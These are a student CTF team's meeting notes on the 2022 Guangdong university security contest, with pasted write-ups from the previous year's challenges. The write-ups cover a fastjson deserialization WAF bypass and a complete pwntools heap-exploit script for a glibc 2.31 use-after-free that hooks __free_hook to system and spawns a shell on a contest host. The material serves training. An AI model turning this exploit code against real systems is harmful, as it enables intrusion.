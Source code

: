 # CTF Week Meeting 2022-04-07

1. Guangdong Province University CTF.
1. Offline schedule.

## 第二节广东大学生网络安全攻防大赛

* 5月15日前，各高校遴选参加全省比赛队伍，一所学校可有多组队伍参赛；

* 5月21日至22日，组织省级初赛评审，初赛内容为30%知识赛+70%攻防夺旗赛，按照成绩高低取前30名队伍进入省级总决赛，每个高校晋级队伍不超过2个；

* 报名时间：截止至2022年5月15日（星期日）17:00。

* 报名方式：参赛学校填写相关报名表，将省级初赛报名表（附件3）发至指定邮箱tw@hzu.edu.cn；同时，加入赛事咨询QQ群825405920。

The sign-up would be collected and submitted once.

According to the previous event, there are some problems:

- 初赛环境老是炸，最后30多分钟都炸了，答案都提交不了
- 晋级塞，，题目也偶尔会出现断开的问题，，第二个web题，，竟然一开始直接返回空，后来又可以了？？不知道是不是只有我遇到这个问题，，晕
- 而且，，晋级赛竟然不是uuid式动态flag。。。。？

(From https://tari.moe/2021/05/23/2021gd-university-ctf/)

### old

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760418752-b865074d-9996-4124-9701-27a1d538b73f.png?x-oss-process=image/resize,w_1500)

任意文件读取，不过`flag.txt` 读不了，但可以看 `hint.txt`，`smali` 字节码，提示了 `fastjson 1.2.24`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760515093-2a7d7537-dbf4-4af9-8e00-e7a14793ccc3.png?x-oss-process=image/resize,w_1500)

先读取本进程相关目录

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760490943-6c4f7d45-000f-4264-9468-0a350d8e903f.png?x-oss-process=image/resize,w_1500)

在 `/usr/local/run/start.jar` 获取源码，`IDEA`打开分析

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760584530-866b5ced-1454-4e9d-a8b0-41d22bea5dac.png?x-oss-process=image/resize,w_1500)

原来过滤了 `flag` ，怪不得读取不了

往反序列化方向，不过有`waf`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760611948-c43a881f-7f5a-48d9-9d39-8e0414bc6b5a.png?x-oss-process=image/resize,w_1500)

然后还有限制

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760625986-96f94ee6-263e-4788-b98c-d11876db5817.png?x-oss-process=image/resize,w_1500)

这里卡了挺久，试了网上很多EXP，都不行

然后突然想起fastjson反序列化的原理

一般是需要别的库的配合，通过反射获取相关方法的

于是我一个个依赖找

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760678227-0b26923e-f3e0-4e62-bac0-a994df337c10.png?x-oss-process=image/resize,w_1500)

搜了下 spring ，没有相关漏洞，但是在 `tomcat dbcp` 里刚好发现了可以利用，而且不用利用 `rmi ldap` 之类的

https://kingx.me/Exploit-FastJson-Without-Reverse-Connect.html

然后刚好用到 `BCEL`，HFCTF2021也刚好用到， 刚好复现过了，所以非常熟练 （

https://github.com/f1tz/BCELCodeman

编写 `java poc`，转换为 `class` 然后生成 `BCEL` 码

这样可以`绕过waf的黑名单`，即绕过了第1个`challenge`

还有2个 `challenge`，这个简单，就长度大于`2000`，然后需要包含 `flag` 关键字

这里直接把 `/flag.txt `改一下名读取即可

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760281491-24e583bd-f4a6-455b-8f81-454db979a055.png?x-oss-process=image/resize,w_1500)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2789727/1621760259579-5427e664-5368-4f57-9987-88549b6b215f.png?x-oss-process=image/resize,w_1500)

### BabyNote

题目是基于 glibc 2.31 的菜单堆题。

漏洞出现在 free 之后没有置零指针导致的 UAF ：

![image-20210524162332431](https://codeantenna.com/image/https://img-blog.csdnimg.cn/img_convert/b8a01cdd12b8b17e0e7750382d826e2e.png)



程序没有输出函数，倒是有一个提示的函数 gift 函数，输出堆地址最低两个字节，没用明白，到最后也不关他的事情。

**思路**：

1. 利用 tcache double 和 scanf 输出长字符串触发 malloc_consolidate 获取 main_arena 地址
2. 爆破倒数第四个数字，将堆分配到 stdout 结构体上，修改 flag 和 write_base 地址泄露出 libc 地址
3. 利用 tcache dup get shell

遇到的问题就是直接之前 libc 2.23 的 payload 去打的话没有回显出 libc 地址，原来的 payload ：

```python
p64(0x0FBAD1887) +p64(0)*3 + p8(0x88)
1
```

flag 这么设置绕过检查没有问题，问题是将 write_base 最低值字节修改为 0x88 了，而 libc 2.31 中 write_ptr 最低位是 0x23

![image-20210524170155561](https://codeantenna.com/image/https://img-blog.csdnimg.cn/img_convert/14e42897c6102444b4480b29ffb56694.png)

导致起始地址比结束地址大，而没有东西输出。还有就是调试断点位置设置问题 ，导致一直以为是修改不成功的原因。断点一开始是打在修改后下一次进入主菜单的时候，由于每次输出都会刷新 stdout 结构体部分指针，导致一直以为没修改成功。正确应该在 read 打断点，然后 n 跳一步查看是否成功修改结构体。

#### EXP

```python
from pwn import *
# context.log_level = 'debug'
context.terminal = ['tmux','sp','-h']



def add(content):
    p.sendlineafter(">>> ",str(1))
    p.sendafter("Input Content:\n",content)
def gift():
    p.sendlineafter(">>> ",str(666))
def delete(id):
    p.sendlineafter(">>> ",str(3))
    p.sendlineafter("Input ID:\n",str(id))
def edit(id,content):
    p.sendlineafter(">>> ",str(2))
    p.sendlineafter("Input ID:\n",str(id))
    p.sendafter("Input Content:\n",content)

def exp():
    add('a'*58)#0
    add('a'*58)#1
    add('a'*58)#2
    for _ in range(8):
        delete(0)
        edit(0,'b'*0x58)
    edit(0,'\x00'*0x10)
    p.sendlineafter(">>> ",'1'*0x450)
    edit(0,'\xa0\x66')

    stdout_offset = libc.symbols['_IO_2_1_stdout_']
    log.info("stdout_offset:"+hex(stdout_offset))

    add('c'*0x8)#3
    # gdb.attach(p,"b *$rebase(0x1392)")
    # raw_input()
    add(p64(0x0FBAD1887) +p64(0)*3 + p8(0x00))#4
    libc_addr = u64(p.recvuntil('\x7f',timeout=1)[-6:].ljust(8,'\x00'))-(0x7fbe678e5980-0x7fbe676fa000)#- (0x7ffff7fac980-0x7ffff7dc1000)
    log.info("libc_addr:"+hex(libc_addr))

    free_hook = libc_addr+libc.sym['__free_hook']
    system_addr = libc_addr+libc.sym['system']
    binsh_str = libc_addr+libc.search('/bin/sh').next()

    delete(1)
    edit(1,p64(free_hook)*2)
    add('/bin/sh\x00')
    add(p64(system_addr))
    delete(1)

    p.interactive()


# p = process("./BabyNote",env={'LD_PRELOAD':'./libc-2.31.so'})
# libc = ELF("./libc-2.31.so")
# exp()

if __name__ == '__main__':
    # p = process("./BabyNote",env={'LD_PRELOAD':'./libc-2.31.so'})
    # libc = ELF("./libc-2.31.so")
    # p = process("./BabyNote")
    # libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    p = remote("8.134.14.168", 10000)
    libc = ELF("./libc-2.31.so")
    while True:
        try:
            exp()
            exit(0)
        except:
            p.close()
            p = remote("8.134.14.168", 10000)
            # p = process("./BabyNote",env={'LD_PRELOAD':'./libc-2.31.so'})
123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172
```

![WX20210523-133922](https://codeantenna.com/image/https://img-blog.csdnimg.cn/img_convert/eee450cda48ffaa4bc9e789d53fefe21.png)

## Offline Activity Schedule

We have returned to the campus yesterday.

Looking forward to our offline activity.

* We are going to use the expert-beginner cooperating method.
* The training competition would be more serious.
* CTF platform would collect self-designed challenges and closed competition challenges.
* Some competition schedules would be replaced with AWD competition.

## Note

- [ ] 第一届题目搜集发布
